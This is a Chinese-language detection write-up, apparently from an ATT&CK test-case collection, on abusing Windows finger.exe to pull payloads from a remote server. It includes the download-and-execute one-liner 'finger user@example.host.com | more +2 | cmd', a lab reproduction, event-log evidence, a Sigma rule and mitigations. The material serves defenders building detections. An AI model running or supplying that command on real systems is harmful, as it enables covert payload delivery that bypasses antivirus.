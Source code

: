 # T1105-Win-入口工具转移-# Finger.exe(白名单)

## 描述

攻击者可能通过命令和控制通道从外部系统将工具或其他文件转移到被攻击的环境中，以将恶意工具或有效载荷引入目标网络。文件传输可通过专用工具（如FTP）或替代协议（如scp、rsync、sftp）实现，适用于Windows、Mac和Linux系统。攻击者常利用系统内置的白名单工具（如`Finger.exe`）来规避传统防病毒检测。

## 测试案例

`Finger.exe`是Windows系统内置的命令行工具，位于`C:\Windows\System32\finger.exe`或`C:\Windows\SysWOW64\finger.exe`，用于查询运行Finger服务或守护进程的远程主机（通常为UNIX系统）上一个或多个用户的信息。攻击者可通过连接到恶意Finger服务器，下载包含恶意shellcode的响应内容，并通过管道（如`cmd`）执行。

### 路径
```yml
- c:\windows\system32\finger.exe
- c:\windows\syswow64\finger.exe
```

### 示例命令
从远程Finger服务器下载有效载荷（Payload）。此示例连接到“example.host.com”，查询用户“user”，结果可能包含恶意shellcode，由`cmd`进程执行。
```yml
finger user@example.host.com | more +2 | cmd
```

### 用例
- 从恶意Finger服务器下载并执行有效载荷。
- 所需权限：用户权限。
- 操作系统：Windows 8.1、Windows 10、Windows 11、Windows Server 2008、Windows Server 2008R2、Windows Server 2012、Windows Server 2012R2、Windows Server 2016、Windows Server 2019、Windows Server 2022。

### Windows安全日志
- **事件ID 4688**：记录`finger.exe`进程创建及命令行参数（需启用命令行审核）。

### Sysmon日志
- **事件ID 1**：捕获`finger.exe`进程创建及命令行参数。
- **事件ID 3**：记录`finger.exe`发起的网络连接（目标IP/端口，通常为TCP 79端口）。
- **事件ID 11**：记录可能的恶意文件创建（若攻击者将响应保存为文件）。

### 网络日志
- 捕获`finger.exe`发起的TCP连接（默认端口79），检查目标主机是否异常。

## 测试复现

### 环境准备
- **靶机**：Windows 10。
- **权限**：用户权限（无需管理员）。
- **工具**：
  - `finger.exe`（系统自带，路径`C:\Windows\System32\finger.exe`或`C:\Windows\SysWOW64\finger.exe`）。
  - Sysmon（用于进程和网络监控）。
  - Wireshark（用于网络流量捕获）。
  - 测试Finger服务器（提供可控响应）。
- **网络**：允许TCP 79端口出站流量，建议在隔离网络中测试。
- **日志**：启用Windows安全日志和Sysmon日志。

### 攻击步骤
1. **执行Finger命令**：

```yml
C:\Users\liyang>Finger.exe

显示与运行手指服务的指定系统上某个用户有关
的信息。输出因远程系统而异。

FINGER [-l] [user]@host [...]

  -l        以长列表格式显示信息。
  user      指定需要其信息的用户。省略 user 参数
            将显示与指定主机上所有用户有关的信息。
  @host     指定需要其用户信息的远程系统上的服务器。

C:\Users\liyang>finger user@example.host.com | more +2 | cmd
Microsoft Windows [版本 10.0.18363.418]
(c) 2019 Microsoft Corporation。保留所有权利。
```

- 命令连接到`example.host.com`，查询用户`user`，并将响应通过管道传递给`cmd`执行。

## 测试留痕

```log
已创建新进程。
创建者主题:
安全 ID: DESKTOP-PT656L6\liyang
帐户名: liyang
帐户域: DESKTOP-PT656L6
登录 ID: 0x47126

进程信息:
新进程 ID: 0x2c8
新进程名称: C:\Windows\System32\finger.exe
令牌提升类型: %%1938
强制性标签: Mandatory Label\Medium Mandatory Level
创建者进程 ID: 0xc78
创建者进程名称: C:\Windows\System32\cmd.exe
进程命令行: finger  user@example.host.com
```

基于Sigma规则（`win_susp_finger_usage`），检测`finger.exe`的异常执行行为：

```yml
title: Finger.exe Suspicious Invocation
id: af491bca-e752-4b44-9c86-df5680533dbc
description: Detects suspicious aged finger.exe tool execution often used in malware attacks nowadays
author: Florian Roth, omkar72, oscd.community
date: 2021/02/24
references:
- https://twitter.com/bigmacjpg/status/1349727699863011328?s=12
- https://app.any.run/tasks/40115012-a919-4208-bfed-41e82cb3dadf/
- http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt
tags:
- attack.command_and_control
- attack.t1105
logsource:
category: process_creation
product: windows
detection:
  selection:
    Image|endswith: '\finger.exe'
  condition: selection
falsepositives:
- Admin activity (unclear what they do nowadays with finger.exe)
level: high
```

### 检测思路
1. **进程监控**：
   - 检查`finger.exe`的命令行参数是否包含远程主机地址（如`user@host`）。
   - 监控异常父进程（如`cmd.exe`）或管道操作（如`| cmd`）。
2. **网络监控**：
   - 检测`finger.exe`发起的TCP 79端口连接，重点关注非预期目标主机。
3. **行为监控**：
   - 检测`finger.exe`的运行是否伴随管道命令（如`more | cmd`）。
   - 检查响应内容是否触发后续进程（如`cmd.exe`执行shellcode）。
4. **关联分析**：
   - 结合Sysmon事件ID 1（进程创建）、3（网络连接）和可能的11（文件创建）进行关联，识别完整攻击链。

### 检测建议
- **告警规则**：基于Sigma规则，配置SIEM系统（如Splunk、Elastic）检测`finger.exe`的异常执行。
- **基线对比**：建立`finger.exe`的正常使用基线（通常在现代环境中极少使用），排除合法行为。
- **网络白名单**：限制`finger.exe`的出站流量，仅允许访问已知合法Finger服务器。
- **管道监控**：检测`finger.exe`输出到`cmd`或其他命令解释器的行为。

## 缓解措施
1. **限制网络访问**：
   - 配置防火墙，限制`finger.exe`的出站TCP 79端口流量，仅允许访问已知合法服务器。
2. **加强日志监控**：
   - 启用命令行参数记录和Sysmon日志，覆盖进程、网络和可能的文件操作。
3. **白名单管理**：
   - 使用应用白名单工具（如AppLocker）限制`finger.exe`的执行场景。
4. **禁用Finger协议**：
   - 在不需要Finger服务的环境中，禁用或移除`finger.exe`。
5. **定期审查**：
   - 检查系统内`finger.exe`的异常使用记录，结合威胁情报分析潜在风险。

## 参考推荐
- MITRE ATT&CK T1105  
  https://attack.mitre.org/techniques/T1105  
- Finger.exe  
  https://lolbas-project.github.io/lolbas/Binaries/Finger/  
- Finger使用方法  
  https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ff961508(v=ws.11)  
- Sigma: win_susp_finger_usage  
  https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_finger_usage.yml
